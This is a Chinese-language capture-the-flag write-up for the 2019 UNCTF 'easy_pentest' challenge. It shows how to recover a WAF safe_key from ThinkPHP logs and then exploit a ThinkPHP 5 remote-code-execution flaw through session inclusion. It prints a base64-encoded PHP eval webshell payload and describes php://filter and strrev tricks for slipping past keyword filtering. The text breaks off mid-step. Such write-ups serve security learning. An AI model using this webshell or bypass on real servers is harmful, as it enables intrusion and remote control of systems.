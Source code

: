 3.需要一个safe_key 来让waf允许参数传入，否则所有参数都拒绝接收。

#### 解题过程
##### 1.获取safe_key
获取safe_key来允许参数传入通过访问发现跳转到一个页面，显示403表明缺少safe_key来通过安全验证，页面如下图
![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007005012080_9507.png)

Tp存在日志规律，请求都会记录在日志中，通过编写EXP来遍历所有可能存在的日志
EXP代码如下：
![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007005113182_4062.png)

执行exp脚本，发现存在02.log日志

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007005150409_29799.png)

打开日志可以看到记录了一条请求，通过GET方式请求且携带参数名为safe_key 值为 easy_pentesnt_is_s0fun 如下图

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007005341443_30605.png)

携带safe_key 再去访问public/index.php  发现跳转到了安全页面可知过了waf的安全验证。如图

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007005539187_16140.png)

##### 2.绕过限制来利用TP5 RCE漏洞
常见的tp5rce利用为 写日志，包含日志。写session，包含session。而这两种方式在这里都不可用，因为waf对<?php等关键字进行了拦截。

所以我们这里通过变形来绕过，利用base64编码与php://filter伪协议，通过inlcude方法进行包含，可以利用`php://filter/read=convert.base64-decode/resource=/var/www/html/runtime/temp/用户session名 `的方式进行解码。

然而session里面还有其他字符串，为了让传入的webshell能够被正确解码，我们需要构造合适的字符串。例如：

```
abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab
<?php @eval(base64_decode($_GET['r']));;?>
```

前后两个ab是为了满足shellcode前后两段字符串来被解析，可以fuzz判断需要加几个来凑满四个字节保证shellcode正常解析。

但是waf拦截了php等关键字，所以还需要绕过。filter其实是可以传递多个的，同时参数为参数引用。可通过strrev反转函数来突破限制。


##### 3.利用

第一步通过设置session，将webshell写入到session中在包含利用，payload为：

```
abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab
<?php @eval(base64_decode($_GET['r']));;?>
```


如图：

![](https://ctfwp.wetolink.com/2019unctf/easy_pentest/20191007010634495_3110.png)

第二步通过webshell列出home目录，payload为：
